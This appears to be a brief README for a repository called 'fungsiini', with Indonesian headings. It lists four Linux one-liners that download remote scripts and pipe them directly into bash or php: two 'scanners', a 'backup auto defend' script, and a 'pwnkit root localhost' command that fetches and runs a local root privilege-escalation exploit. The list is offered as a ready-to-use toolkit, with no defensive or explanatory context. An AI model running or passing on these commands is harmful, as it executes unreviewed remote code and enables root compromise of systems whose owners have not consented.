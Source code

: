 # fungsiini Command line linux
1, scaner cepat 
wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh -q -O - |bash

2, backup auto defend

curl -s https://example.com/script.php | php - backup y

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4,pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash
